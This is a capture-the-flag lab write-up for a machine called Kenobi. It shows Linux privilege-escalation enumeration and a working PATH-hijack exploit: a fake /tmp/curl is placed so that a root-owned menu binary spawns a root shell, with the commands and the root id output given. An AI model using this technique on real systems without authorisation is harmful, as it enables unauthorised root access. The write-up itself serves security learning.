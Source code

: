# Day 4 – Privilege Escalation

## 🎯 Objective
Escalate privileges from the `kenobi` user account to `root` on the target machine.

---

## 🔍 Enumeration

After obtaining a shell as `kenobi`, several privilege escalation checks were performed:

### 1. SUID Binaries
```bash
find / -perm -4000 -type f 2>/dev/null
```
**Finding:** `/usr/bin/pkexec` had the SUID bit set.

---

### 2. Capabilities
```bash
getcap -r / 2>/dev/null
```
**Finding:** No dangerous capabilities identified.

---

### 3. Writable Directories
```bash
find / -writable -type d 2>/dev/null | grep -v proc
```
**Finding:** `/tmp` was writable.

---

### 4. Interesting Binaries
```bash
ls -l /usr/bin/menu
```
**Finding:** Owned by root and executable → became the escalation vector.

---

## ⚡ Attempted Vectors

- **pkexec exploit:**  
  Attempted to compile/run a PoC, but it required valid authentication → not viable.  

- **Path Hijacking in `/usr/bin/menu`:**  
  The binary calls system utilities (`curl`, `ifconfig`, etc.) **without absolute paths**.

---

## 💥 Exploitation

By hijacking the `$PATH` variable and placing a malicious `curl` binary in `/tmp`, root execution was achieved:

```bash
echo /bin/sh > /tmp/curl
chmod +x /tmp/curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

When selecting **option 1 (status check)**, the program invoked `/tmp/curl`, dropping to a root shell.

---

## ✅ Result

```bash
# whoami
root

# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

**Privilege escalation was successful.**
